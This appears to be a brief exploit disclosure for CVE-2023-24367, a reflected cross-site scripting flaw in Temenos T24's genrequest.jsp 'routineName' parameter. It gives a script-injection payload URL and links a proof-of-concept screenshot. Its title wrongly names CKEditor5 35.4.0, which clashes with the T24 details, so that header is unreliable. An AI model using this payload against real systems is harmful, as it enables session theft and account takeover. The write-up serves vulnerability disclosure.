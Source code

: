 ## Exploit Title: Cross Site Scripting in CKSource's CKEditor5 35.4.0
## Google Dork: N/A
## Exploit Author: Omar Jezi
## Vendor Homepage: [https://www.temenos.com/](https://www.temenos.com/)
## Version: R20
## CVE : CVE-2023-24367

T24 was discovered to contain a cross-site scripting (XSS) vulnerability via genrequest.jsp in "routineName" parameter

payload :

jsps/genrequest.jsp?routineName="><script>alert(1)</script>

![alt text](https://raw.githubusercontent.com/mrojz/T24/main/T24_XSS_POC.png)
